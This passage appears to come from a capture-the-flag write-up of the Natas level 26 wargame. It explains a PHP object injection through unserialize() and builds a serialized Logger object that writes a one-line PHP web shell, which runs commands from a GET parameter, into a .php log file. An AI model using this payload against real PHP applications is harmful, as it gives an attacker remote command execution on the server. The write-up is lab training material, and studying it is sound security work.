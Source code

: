 </form> 

<?php
    session_start();

    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){  
        $imgfile="img/natas26_" . session_id() .".png"; 
        drawImage($imgfile); 
        showImage($imgfile);
        storeData();
    }
    
?>
{% endhighlight %}

Whew! So much code&#8230; the levels are getting real good now!

From reviewing the code, it looks like the vulnerability is PHP OBJECT INJECTION via the unserialize() call. According to [OWASP](https://www.owasp.org/index.php/PHP_Object_Injection) on the nature of this vulnerability, we should be able to use the unserialize() call to overwrite &#8216;Logger => exitMsg&#8217;. When the page calls Logger.__destruct() method, our modified exitMsg will be saved into the log file. We should then be able to open the log file and get a stored XSS to read out the password.

We need to know the [structure](https://stackoverflow.com/questions/14297926/structure-of-a-serialized-php-string) of serialized data pretty well to make our own. Once base64 decoded, an example of serialized data from this page is:

<pre class="lang:php decode:true">a:1:{
	i:0;a:4:{
		s:2:"x1";
		s:1:"1";
		s:2:"y1";
		s:1:"2";
		s:2:"x2";
		s:1:"3";
		s:2:"y2";
		s:1:"4";
	}
}</pre>

Since we actually can control the &#8216;$logFile&#8217; variable as well as &#8216;$exitMsg&#8217;, we can change the log file into a php file, and make a webshell for executing commands!

An example of serialized data for a request that manipulates both variables:

<pre class="lang:php decode:true">a:1:{
        i:0;
	O:6:"Logger":2:{
		s:15:"\0Logger\0logFile";
		s:31:"img/natas26_ponderngnatas26.php";
		s:15:"\0Logger\0exitMsg";
		s:21:"<pre> <?=`$_GET[1]`?>";
	}
}</pre>
